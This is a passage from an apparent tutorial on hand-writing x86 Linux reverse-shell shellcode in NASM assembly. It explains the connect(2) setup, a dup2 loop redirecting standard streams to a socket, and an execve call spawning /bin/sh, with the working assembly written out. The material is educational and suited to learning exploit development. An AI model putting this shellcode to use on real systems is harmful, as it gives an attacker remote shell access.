 ```nasm
    push 0x10
    push ecx
    push edi
    mov ecx, esp
    int 0x80
```

These next instructions set up the arguments to `connect(2)`. As usual these get pushed in reverse order, first the length of the sockaddr struct (`0x10`, or 16), then the pointer to the sockaddr struct we saved earlier into ecx, and finally `0x02`, the protocol domain saved in EDI. 

Then we move the pointer to these arguments into ECX and make the syscall. 

### The Rest of the Shellcode

There is one last change to make before we return to the same code as is in the bind shell payload. Since we're using the same file descriptor returned by `socket(2)` to handle the connection we need to get it back off the stack before proceeding. 

This is a simple POP EBX

```nasm
    pop ebx
```

From here on out the code is identical to the bind shell payload. 

```nasm
; dup2(connection_fd, fd_to_redirect)

    mov ecx, edx        ; from here on out it's identical to our previous bindshell payload.
    mov cl, 0x02

dup2_loop:
    xor eax, eax
    mov al, 0x3f
    int 0x80
    dec ecx
    jns dup2_loop

; execve /bin/sh

    push edx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push edx
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 0x0b
    int 0x80
```

In a short loop we run `dup2(2)` to duplicate our stdin, stdout, and stderr to the socket file descriptor, and then use `execve(2)` to invoke `/bin/sh`. 
